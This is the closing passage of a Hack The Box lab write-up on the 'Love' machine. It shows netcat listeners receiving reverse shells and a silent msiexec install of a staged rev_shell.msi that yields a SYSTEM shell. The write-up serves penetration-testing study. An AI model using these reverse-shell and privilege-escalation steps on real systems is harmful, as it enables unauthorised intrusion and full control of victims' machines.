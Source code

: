 ```
┌──(ryan㉿kali)-[~/HTB/Love]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.240] from (UNKNOWN) [10.129.48.103] 53552
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> cd C:\users\phoebe\documents
PS C:\users\phoebe\documents> ls


    Directory: C:\users\phoebe\documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/21/2024   9:16 AM         159744 rev_shell.msi                                                        


PS C:\users\phoebe\documents> msiexec /quiet /qn /i C:\users\phoebe\documents\rev_shell.msi
```

```
┌──(ryan㉿kali)-[~/HTB/Love]
└─$ nc -lnvp 5000
listening on [any] 5000 ...
connect to [10.10.14.240] from (UNKNOWN) [10.129.48.103] 53553
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>hostname
hostname
Love
```

Something about my winrm session kept me from exploiting this, even if I'm not sure why.

Anyways, we can now grab the final flag:

![love_root_flag.png](../assets/love_assets/love_root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------------
